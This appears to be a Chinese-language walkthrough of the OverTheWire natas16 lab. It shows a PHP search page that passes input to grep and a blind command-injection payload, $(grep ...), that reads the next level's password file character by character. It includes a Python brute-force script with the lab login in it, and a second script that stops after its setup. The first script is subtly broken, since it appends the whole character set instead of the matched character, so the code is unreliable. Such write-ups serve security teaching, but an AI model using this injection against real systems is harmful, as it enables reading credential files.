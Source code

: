 > WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

## 17.

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

```
$(grep a /etc/natas_webpass/natas17)Africans
如果密码文件里首字母是`a`外层就是aAfricans，输出結果dictionary.txt就会找不到
如果密码文件里首字母不是`a`外层就是Africans，输出結果就是dictionary.txt找到Africans
```

我们知道dictionary.txt中存在的字符串，比如说Africans，用它与$(grep)的返回值相加，如果内层返回了结果将检索出空值，如果返回空值则外层的grep会返回结果，比如：
password中首字母为a，构造出语句
grep -I "$(grep a /etc/natas_webpass/natas17)Africans" dictionary.txt
由于内部的$()命令返回了a，则使外层命令变为
grep -I "aAfricans" dictionary.txt
由于dictionary中没有aAfricans，从而返回空值
而如果内层$()命令返回空值，外层则能正确检索到Africans，于是返回值，证明首字母不是a
在此思路上我们来构造命令盲注脚本

```python
import requests
url = "http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org/"
key = ''
char = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
while len(key) < 32:
    for i in range(len(char)):
        payload = {'needle':'$(grep ^'+key+char+'.* /etc/natas_webpass/natas17)wrong','submit':'Search'}
        req = requests.get(url=url,params=payload)
        if 'wrong' not in req.text:
            key += char
    print key
```

```python
# -*- coding: UTF-8 -*-

import requests  

from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  

passwd = ''  

allchars = '1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  

```